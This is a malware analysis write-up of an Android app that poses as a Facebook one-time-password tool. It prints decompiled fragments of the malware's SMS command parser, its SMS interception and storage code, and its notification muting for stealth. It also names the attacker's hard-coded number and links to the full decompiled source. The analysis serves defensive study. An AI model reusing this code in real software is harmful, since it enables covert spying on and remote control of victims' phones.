










### Diving into Facebook OTP - Android malware analysis

### [~$ cd ..](../)

 
## First steps

The [Manifest](AndroidManifest.xml) is similar to a classic malware's manifest: a lot of permissions, a receiver for administration privileges, and one for incoming SMS.
The entry point is `com.soft360.iService.MainActivity`, so let's take a look at this.

The bad news:



It will not be so easy...

### The Main activity

By taking a look at `onCreate`, we can make some assumptions:



* First, the member variable `jdField_a_of_type_CD` in initialized, and this object will do crypto stuffs:

> ```java
>public cD(){
>	try{
>		this.jdField_a_of_type_JavaxCryptoCipher = Cipher.getInstance("AES/CBC/NoPadding");
>	}
>	catch (NoSuchAlgorithmException | NoSuchPaddingException e){
>		e.printStackTrace();
>	}
>}
> ```
* We can see that the malware tries to detect the presence of an emulator, and will kill the process if it's the case. According to [this other analysis](https://www.lexsi.com/securityhub/ibanking-when-malware-bypass-the-facebook-otp/?lang=en) of the malware, the main activity looks like this:


The app proposes a One-Time-Password for Facebook, but actually performe some malicious tasks in background. 

* Some services are started if `b` returns false, `b` being:

> ```java
>private boolean b(){
>	Context context = getApplicationContext();
>	List<ActivityManager.RunningAppProcessInfo> runningApps = ((ActivityManager)context.getSystemService(ACTIVITY_SERVICE)).getRunningAppProcesses();
>	Iterator<ActivityManager.RunningAppProcessInfo> it = runningApps.iterator();
>	do{
>		if (!it.hasNext()) {
>			return false;
>		}
>		ActivityManager.RunningAppProcessInfo info = it.next();
>	} while (!info.processName.startsWith("com.BioTechnology.iClientsService") || info.processName.equals(getApplicationContext().getPackageName()));
>	return true;
>}
> ```
* A `switch-case` statement follows in order to decide which view should be shown. By default, admin privileges will be asked if needed.

After these first lines, I found many nested `try/catch` blocks modifying `TextView`s' values and visibility. However, in this mess, a line is interesting:



where `p` is a routine dealing with a database:

> ```java
>public final boolean p(){
>	SQLiteDatabase db = getWritableDatabase();
>	ContentValues values = new ContentValues();
>	values.put("isHacked", Integer.valueOf(0));
>	int j;
>	try{
>		db.beginTransaction();
>		j = db.updateWithOnConflict("inforegLastCommand", values, " id = ? ", new String[] { String.valueOf(1) }, 3);
>		db.setTransactionSuccessful();
>		db.endTransaction();
>		if (j > 0) {
>			return true;
>		}
>	}
>	catch (SQLException localSQLException){
>		throw new SQLException("fail to setIsHacked to DB" + localSQLException);
>	}
>	finally{
>		db.endTransaction();
>	}
>	throw new SQLException("error setIsHacked!!  " + j);
>}
> ```

Very suspicious!

The `MainActivity` contains also many routines with the name `templateXX_click`:



and each one launches an asynchronous task, specific to each possible layout. If we look at the `res/layout` folder, we can see that these layouts are more than 50!. It also explains
why the `onCreate` contains so many nested blocks. We'll get back to it later.

## SMS Receiver

The routine `SmsReciever.onReceive` is quite complicated, so let's make a simple overview:



Names are misleading here, but we can see that SMS are forwarded to `em.a`, a hard-coded phone number: **+79067075145**, and sent to a server.

In this class `em`, we can also find this routine, which looks like a command parser:

> ```java
>private static int a(String paramString){
>	if (paramString.startsWith("sms start"))
>		return 1;
>	if (paramString.equalsIgnoreCase("sms stop".toString()))
>		return 2;
>	if (paramString.equalsIgnoreCase("call start".toString())){
>		b = jdField_a_of_type_JavaLangString;
>		return 3;
>	}
>	if (paramString.equalsIgnoreCase("call stop".toString())){
>		b = jdField_a_of_type_JavaLangString;
>		return 4;
>	}
>	if (paramString.indexOf("change num") == 0){
>		jdField_a_of_type_JavaLangString = paramString.substring(paramString.lastIndexOf(" ") + 1);
>		AService.a();
>		return -1;
>	}
>	if (paramString.indexOf("call start") == 0){
>		b = paramString.substring(paramString.lastIndexOf(" ") + 1);
>		return 3;
>	}
>	if (paramString.equalsIgnoreCase("sms list".toString()))
>		return 5;
>	if (paramString.equalsIgnoreCase("call list".toString()))
>		return 6;
>	if (paramString.equalsIgnoreCase("start record".toString()))
>		return 7;
>	if (paramString.equalsIgnoreCase("stop record".toString()))
>		return 8;
>	if (paramString.indexOf("sendSMS") == 0)
>		return 9;
>	if (paramString.equalsIgnoreCase("contact list".toString()))
>		return 10;
>	if (paramString.equalsIgnoreCase("wipe data".toString()))
>		return 11;
>	if (paramString.equalsIgnoreCase("ping".toString()))
>		return 12;
>	if (paramString.indexOf("checkurl") == 0)
>		return 13;
>	if (paramString.indexOf("adddomain") == 0)
>		return 14;
>	if (paramString.equalsIgnoreCase("get images".toString()))
>		return 15;
>	if (paramString.equalsIgnoreCase("get place".toString()))
>		return 16;
>	if (paramString.equalsIgnoreCase("get apps".toString()))
>		return 17;
>	if (paramString.equalsIgnoreCase("start record call".toString()))
>		return 18;
>	if (paramString.equalsIgnoreCase("stop record call".toString()))
>		return 19;
>	if (paramString.indexOf("greed ") == 0)
>		return 20;
>	return -1;
>}
> ```

and many small routines checking the return value:


We can then deduce that's not only about SMS, but also about calls, pictures, contacts, and a bunch of personal data. For example, let's take a look at this snippet, in the routine `onReceive`:



Routines `e`, `g`, `h`, `o` and `j` of class `em` are called, and we have:

* `em.e` is `public final boolean e(){ return a(this.c) == 4;}`: returns true if `c` (the command) is **call stop**
* `em.g` is `public final boolean g(){ return a(this.c) == 5;}`: returns true if `c` is **sms list**
* `em.h` is `public final boolean h(){ return a(this.c) == 6;}`: returns true if `c` is **call list**
* `em.o` is `public final boolean o(){ return a(this.c) == 11;}`: returns true if `c` is **wipe data**
* `em.j` is `public final boolean j(){ return a(this.c) == 7;}`: returns true if `c` is **start record**

Last thing regarding this routine:



Then, we can deduce that these lines in `onReceive` check the originating address. If it's `em.a` (the hard-coded attacker's number), a command is extracted from the body, otherwise a
jump is done at the end of the routine, where the SMS will stored in the database:



where `dU.a` is as follows:

> ```java
>public static long a(SmsMessage sms){
>	SQLiteDatabase db = a(null).getWritableDatabase();
>	ContentValues values = new ContentValues();
>	values.put("isTransfer", new Byte("1"));
>	values.put("MessageBody", sms.getDisplayMessageBody());
>	values.put("OriginatingAddress", sms.getDisplayOriginatingAddress());
>	values.put("Status", Integer.valueOf(sms.getStatus()));
>	return db.insert("refSMS", "", values);
>}
> ```

SMS are actually the main communication vector with the attacker, who tried to make it stealthy:

> ```java
>private static void a(Context paramContext){
>if (Build.VERSION.RELEASE.startsWith("4.4")) {
>	((AudioManager)paramContext.getSystemService("audio")).setStreamMute(STREAM_NOTIFICATION, true);
>}
> ```


## A few words about obfuscation

As we saw, the malware has been obfuscated using several techniques. My guess about the big number of views is that only one is relevant. If we take a look at
the file `strings.xml`, only one template (the 44th) has corresponding values:



I think that the malware tries to parse views and access unknown items with `findViewById`, and nested `try/catch`s lead to the only good block, the 44th.



We can see  here that same IDs are used, and they are the same for almost all views. I guess that only `activity_main44.xml` will lead to a correct parsing, which means
that all other views are useless.

The goal here is rather to be stealthy, because the app doesn't try to ensure persistency like in past analyses. Interesting malware!

## Resources

* Download [decompiled source](dec_sources.zip)
* `res` folder [(zip)](res.zip)
* Sha256 (APK): f448c6d8e2e970020c1993be69120a6a8761df7be978f989d41da8c531c33063
* Package: com.soft360
